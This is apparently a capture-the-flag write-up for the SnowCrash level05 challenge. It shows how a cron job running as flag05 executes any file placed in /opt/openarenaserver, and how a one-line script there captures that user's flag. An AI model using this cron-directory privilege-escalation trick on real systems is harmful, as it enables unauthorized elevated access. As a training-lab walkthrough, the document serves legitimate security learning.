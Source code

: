 Loggin in we have this message: 'You have new mail.'

We start by checking for mail and find a cron job running under the `flag05` user.

```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This cron job executes a script every 2 minutes as `flag05`, running `sh /usr/sbin/openarenaserver`.

Inspecting `/usr/sbin/openarenaserver` shows:

```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

This script runs all executable files in `/opt/openarenaserver/`, then removes them. Since it’s a cron job, it doesn’t output to standard output, so we need a redirect to capture the result.

We create a script that runs `getflag` and redirects the output to `/tmp/test`:

```
level05@SnowCrash:~$ echo "getflag > /tmp/test" > /opt/openarenaserver/test.sh
```

After a short wait, we check if the file has been removed, confirming the cron job has run:

```
level05@SnowCrash:~$ ls /opt/openarenaserver/
```

The file is gone, indicating the cron job executed it.

We check `/tmp/test` to retrieve the flag:

```
level05@SnowCrash:~$ cat /tmp/test
Check flag.Here is your token :
```

Success!

